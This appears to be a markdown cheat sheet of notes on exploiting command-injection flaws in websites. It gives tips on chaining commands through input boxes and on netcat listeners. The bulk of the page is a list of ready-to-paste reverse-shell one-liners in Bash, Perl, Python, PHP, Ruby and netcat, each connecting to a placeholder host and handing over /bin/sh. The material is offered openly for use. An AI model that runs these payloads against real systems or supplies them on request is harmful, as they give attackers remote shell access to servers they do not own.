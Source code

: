 Before trying to use tools just browse the website and get a feel for it, look for exploits in features, specifically if the website allows for an upload.

### Exploiting Code Execution Vulnerabilities

1. Always experiment with any input boxes you see, as they are executing a command, you might be able to change the command.
2. Can use && or ; in unix to execute multiple commands in one line. Test if input box allows this.
3. Most servers have python and netcat.
4. Listen for incoming connections, example using netcat:
    - `netcat -vv -l -p [port]` - listens for connections on port 8080
    - ie. nc -e /bin/sh [ip] [port] - netcat connection.

Following this are a list of commands that you could execute to get a reverse connection for different supported languages. Where the variable to change denoted by `[HOST_IP]` and optionally to change the port. Note that these are all 'one-liners' so they could be executed in input boxes.

#### Bash

``` bash
bash -i >& /dev/tcp/[HOST_IP]/8080 0>&1
```

#### PERL

``` perl
perl -e 'use Socket;$i="[HOST_IP]";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Python

``` python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[HOST_IP]",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP

``` php
php -r '$sock=fsockopen("[HOST_IP]",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby

``` ruby
ruby -rsocket -e'f=TCPSocket.open("[HOST_IP]",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Netcat

``` bash
nc -e /bin/sh [HOST_IP] 8080
```
